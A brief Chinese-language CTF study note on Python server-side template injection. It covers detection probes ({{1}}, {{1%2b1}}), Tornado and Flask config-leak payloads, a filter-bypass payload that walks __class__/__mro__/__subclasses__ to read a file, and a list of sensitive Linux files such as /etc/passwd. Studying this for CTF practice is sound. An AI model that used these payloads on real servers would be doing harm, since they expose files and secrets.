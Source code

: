 

本文记录一些 CTF 试题中 Python 相关的内容。

如果通过 Response 信息判断 Web 服务是 Python 的情况，可以使用 `{{1}}` 的方式探测是否可以进行注入。

* 模块注入
* 模板注入

```http
/error?msg={{1}}
/error?msg={{handler.settings}}
/error?msg={{config}}
```

## SSTI

SSTI 是服务端模板注入的缩写（Server Side Template Injection）。判断是否存在 SSTI 漏洞可以使用 `{{1%2b1}}` 这个表达式，如果页面能输出 2 这个结果，表示页面可能存在 SSTI 漏洞。

可以使用一些方式绕过敏感词过滤

```http
http://xxx.xxx.xxx.xxx/index.php/{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```



## 系统的敏感文件

Linux 中一些敏感的系统文件。

```sh
/etc/passwd
/etc/environment
/etc/hostname
/etc/hosts
/proc/self/cmdline
```




## Tornado

在 tornado 框架模板中，存在一些可以快速访问的对象，

* `handler.settings` ，handler 指向 RequestHandler，而 RequestHandler.settings 又指向 self.application.settings，所以handler.settings 就指向 RequestHandler.application.settings，这里面包含了一些环境变量

## 参考资料

1. [Python Template Injection](https://blog.csdn.net/qq_45774670/article/details/110223398)
1. [buuctf easy-tornado](https://blog.csdn.net/ANYOUZHEN/article/details/124983143)
1. [一文掌握CTF中Python全部考点](https://www.freebuf.com/column/232197.html)
1. [警惕Python中的路径穿越](https://blog.csdn.net/qq_36078992/article/details/122070641)
1. [[83：CTF夺旗-Python考点SSTI&反序列化&字符串](https://www.cnblogs.com/zhengna/p/15798046.html)](https://www.cnblogs.com/zhengna/p/15798046.html)
1. [python SSTI(服务端模板注入)](https://www.cnblogs.com/zpchcbd/p/15881573.html)